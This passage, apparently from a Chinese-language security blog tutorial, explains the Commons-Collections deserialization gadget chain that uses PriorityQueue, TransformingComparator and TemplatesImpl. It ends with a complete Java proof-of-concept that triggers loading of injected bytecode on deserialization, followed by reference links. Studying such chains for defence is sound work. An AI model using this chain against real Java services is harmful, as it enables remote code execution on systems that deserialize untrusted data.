实例化 `PriorityQueue` ，向队列里添加的元素是前面创建的 `TemplatesImpl` 对象：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```java<br>PriorityQueue queue = new PriorityQueue(2, comparator);<br>queue.add(obj);<br>queue.add(obj);<br>``` |

原因很简单，和上一篇文章相同，因为我们这里无法再使用 `Transformer` 数组，所以也就不能用 `ConstantTransformer` 来初始化变量，需要接受外部传入的变量。而在 `Comparator#compare()` 时，队列里的元素将作为参数传入 `transform()` 方法，这就是传给 `TemplatesImpl#newTransformer` 的参数。

最后一步，将 `toString` 方法改成恶意方法 `newTransformer` :

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```java<br>setFieldValue(transformer, "iMethodName", "newTransformer");<br>``` |

最终的 POC：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>``` | ```java<br>public static void main(String[] args) throws Exception {<br>    TemplatesImpl obj = new TemplatesImpl();<br>    setFieldValue(obj, "_bytecodes", new byte[][]{getBytescode()});<br>    setFieldValue(obj, "_name", "HelloTemplatesImpl");<br>    setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());<br>    <br>    Transformer transformer = new InvokerTransformer("toString", null, null);<br>  <br>    Comparator comparator = new TransformingComparator(transformer);<br>  <br>    PriorityQueue queue = new PriorityQueue(2, comparator);<br>    queue.add(obj);<br>    queue.add(obj);<br>  <br>    setFieldValue(transformer, "iMethodName", "newTransformer");<br>  <br>    ByteArrayOutputStream barr = new ByteArrayOutputStream();<br>    ObjectOutputStream oos = new ObjectOutputStream(barr);<br>    oos.writeObject(queue);<br>    oos.close();<br><br>    ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));<br>    Object o = (Object)ois.readObject();<br>}<br>``` |

## [](#%E5%8F%82%E8%80%83)参考

[phith0n Java 漫谈系列](https://wx.zsxq.com/dweb2/index/group/2212251881)

[Java反序列化漏洞原理解析](https://xz.aliyun.com/t/6787#toc-11)

[Java反序列化漏洞从入门到关门](https://www.freebuf.com/articles/web/271275.html)

[从0开始学Java反序列化漏洞](https://yinwc.github.io/2020/02/08/java%e5%8f%8d%e5%ba%8f%e5%88%97%e5%8c%96%e6%bc%8f%e6%b4%9e/)

[深入理解 JAVA 反序列化漏洞](https://paper.seebug.org/312/)

[Java反序列化利用链补全计划](https://0range228.github.io/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%A9%E7%94%A8%E9%93%BE%E8%A1%A5%E5%85%A8%E8%AE%A1%E5%88%92/)

[Commons-Collections 利用链分析](https://mp.weixin.qq.com/s/sraJ2K9R2CkLHiCcPK0wrA)
